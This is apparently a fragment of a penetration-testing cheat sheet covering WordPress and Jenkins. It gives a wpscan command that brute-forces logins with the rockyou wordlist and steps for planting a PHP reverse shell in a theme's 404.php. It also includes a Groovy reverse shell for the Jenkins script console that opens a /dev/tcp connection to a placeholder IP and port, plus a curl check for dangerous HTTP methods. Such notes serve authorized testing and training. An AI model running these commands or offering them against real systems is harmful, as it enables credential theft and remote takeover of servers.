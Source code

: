 #### Bruteforce login
```
wpscan --url <URL> --usernames <USERNAME> --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

#### Upload a reveare shell
1. Login --> Appearance --> Theme editor --> 404.php
2. gedit /usr/share/webshells/php/php-reverse-shell.php
3. Paste in 404.php
4. Start listener and go to an unexisting page in the browser

### Jenkings
#### Execute commands
- After login go to /script

#### Reverse java shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### General
#### Find dangerous HTTP methods
https://www.sans.org/reading-room/whitepapers/testing/penetration-testing-web-application-dangerous-http-methods-33945
```
curl -v -X OPTIONS http://website/directory
#HTTP options such as PUT, Delete are bad
```
